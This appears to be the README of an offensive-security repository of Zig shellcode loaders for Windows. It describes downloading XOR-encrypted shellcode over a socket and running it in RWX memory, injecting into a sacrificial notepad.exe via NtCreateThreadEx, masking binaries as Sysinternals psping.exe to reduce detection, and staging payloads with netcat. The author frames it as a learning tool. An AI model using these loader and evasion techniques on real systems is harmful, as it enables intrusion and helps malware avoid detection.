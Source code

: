 # offensive zig
> offensive security tools written in zig 

**NOTE**: built w/ zig 0.14.0-dev.138+02b3d5b58

# contents
**utilities**:
- xor.py
	script to xor encrypt shellcode

**shellcode loaders**:
- local
	injects shellcode downloaded from a remote socket in the local process and executes via a function pointer
- remote
	creates a sacrificial *notepad.exe* process, allocates RWX memory, then executes via remote thread

## opsec
> generally this is just a learning tool for me, but i am also trying to implement opsec-aware techniques which reduce detections for payloads

### masking executable metadata
executable metadata is masked to appear as `psping.exe` from Sysinternals, but this can be customized in `metadata.rc` 

## shellcode loaders
#### building
> this will build all payloads as individual `.exe` files

`zig build -Dtarget=x86_64-windows -Dhost="<ip>" -Dport=<port> -Dsize=<payload_size>`

#### running 
1. stage shellcode w netcat
	`sudo nc -vv -l -k -p 80 < payload.bin`
2. download & execute the `.exe` on target
3. profit

### local
#### overview
1. creates a socket using `std.os.windows.ws2_32` and downloads from a remote host & port specified at compile time with the flags shown below
   
2. xor decrypts downloaded shellcode using hardcoded key

3. allocates RWX memory within the current process using `std.os.windows.VirtualAlloc` and copies the shellcode into the region

4. executes the memory by creating a function which points to the base address of the region: `const func: *const fn () callconv(.C) i32 = @ptrCast(memory);`

### remote
#### overview
1. spawns a new *notepad.exe* process in a suspended state and opens a handle to it
   
2. creates a socket using `std.os.windows.ws2_32` and downloads from a remote host & port specified at compile time with the flags shown below
   
3. xor decrypts downloaded shellcode using hardcoded key
   
4. allocates RWX memory in the remote process using `VirtualAllocEx` and write shellcode to the region using `WriteProcessMemory`

5. finally, spawns a remote thread pointed at the memory region of the *notepad.exe* process which contains our shellcode using `NtCreateThreadEx`, then resumes the thread to execute
